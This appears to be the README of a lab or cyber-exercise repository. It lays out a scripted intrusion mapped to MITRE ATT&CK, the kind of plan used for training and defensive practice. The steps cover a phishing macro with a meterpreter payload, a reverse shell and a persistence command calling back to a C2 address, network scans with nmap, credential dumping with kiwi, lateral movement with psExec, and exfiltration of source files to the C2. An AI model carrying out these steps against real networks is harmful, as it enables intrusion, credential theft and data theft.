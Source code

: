 # Scenario-1

## Web Server Setup
1. Download Scenario git project
2. Use `Copy-VMGuestfile` to copy the files in www to c:\inetpub\wwwroot\
`Calc.exe` is going to be the software renamed

## Domain set-up 

# Scenario-2
## Attacker Scheme of Manuever 

### Initial Access https://attack.mitre.org/techniques/T1566/001/
#### Spear phishing attachment
1. Adversary spear phishes [user x] and gains access to their system. Sends phishing email to [user x] with a file attached including a malicious macro with an embedded meterpreter payload
Win7 

### Execution https://attack.mitre.org/techniques/T1204/002 or https://attack.mitre.org/techniques/T1059/005/
#### Visual Basic or Malicious File
3. User opens email, downloads attachment to C:\users\[user x windows account]\downloads
4.  [User x] opens PDF from file explorer , enables content, and executes the malicious macro

### Adversary establishes C2 https://attack.mitre.org/techniques/T1071/001
#### Maybe Http
1. Adversary establishes a reverse TCP connection from [user x IP] to [adversary C2 IP] via metetpreter shell to destination port [y]. Adversary leaves this connection open, no call back.

### Adversary establishes persistence https://attack.mitre.org/techniques/T1547/001
`run persistence -U -i 5 -p 443 -r {192.168.1.71}`
##### vbs for execution and runkey for persistence
1. Adversary uses the persistence module in meterpreter to establish persistence. Does not modify the default location or name of the .vbs dropped onto [user x] system

### Defense Evasion
None (n00b hax0r)

### Discovery https://attack.mitre.org/techniques/T1083
#### File Discovery 
Adversary is looking for files pertaining to the VicCash codebase on the local host
Adversary dir walks common  file storage directories on [user x] host looking for keywords pertaining to the VicCash codebase
Adversary is looking to see if [user x] is mapped to the fileserver already
Adversary reviews current mapped shares on [user x] system
`net use `
dir /s /b /a \\fs\share
Adversary is looking  for  a way to laterally move onto the  file server. 
Adversary performs network discovery to find potential lateral movement targets

### Discovery https://attack.mitre.org/techniques/T1018
#### Network Discovery 
nmap -F [IP]/24
Adversary nMaps the subnet [user x] is on	
Adversary nMaps any additional subnets of interest based on routes discovered in [user x] arp cache / route table

#### Attempt Logon
Adversary finds the target, but does not have the privileges required to psExec to the target
	
### Cred Access
Adversary is attempting to harvest domain admin credentials
Adversary uses kiwi to dump hashes	
Adversary finds the domain admin's creds on [user x's] system

Privilege Escalation/Lateral Movement
Adversary escalates privileges and laterally moves to file server
Adversary uses psExec to connect to the fileserver using the previously acquired domain admin creds
	
### Discovery
Adversary discovers VicCash codebase
Adversary dir walks common  file storage directories on file server looking for keywords pertaining to the VicCash codebase
Adversary finds the files VicCash_Build-9.6.cpp, VicCash_Build-9.6.exe, VicCash_Build-9.6.HxC, VicCash_Build-9.6.map located in [fileserver hostname]\\VicCashFS\VicCashCodeBaseFiles\Production\
		
### Collection
Adversary stages the files for exfil on initial victim host
Adversary downloads the files from the fileserver to [user x] host via meterpreter download to C:\users\[user x]\staging-files\
Adversary zips the files into a .zip file called badguyexfildocs.zip

### Exfiltration and Egress
Adversary exfils the files to their C2
Adversary uploads the files from [user x] system to their c2 domain via meterpreter
Adversary egresses the network
Adversary exits their session on the fileserver	
Adversary exits their session on [user x]
		
# WINNING

